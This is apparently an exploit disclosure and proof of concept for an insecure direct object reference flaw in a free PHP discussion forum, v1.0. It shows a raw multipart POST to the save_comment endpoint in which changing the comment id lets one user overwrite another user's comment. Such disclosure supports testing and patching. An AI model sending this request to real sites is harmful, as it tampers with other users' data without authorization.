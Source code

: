 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update comment that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=save_comment HTTP/1.1
...

------WebKitFormBoundaryxcXPeEOh2PoB2vYi
Content-Disposition: form-data; name="id"

7(CHANGE HERE)
------WebKitFormBoundaryxcXPeEOh2PoB2vYi
Content-Disposition: form-data; name="post_id"

2
------WebKitFormBoundaryxcXPeEOh2PoB2vYi
Content-Disposition: form-data; name="comment"

<p>iiiii user1</p>
------WebKitFormBoundaryxcXPeEOh2PoB2vYi
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryxcXPeEOh2PoB2vYi--
```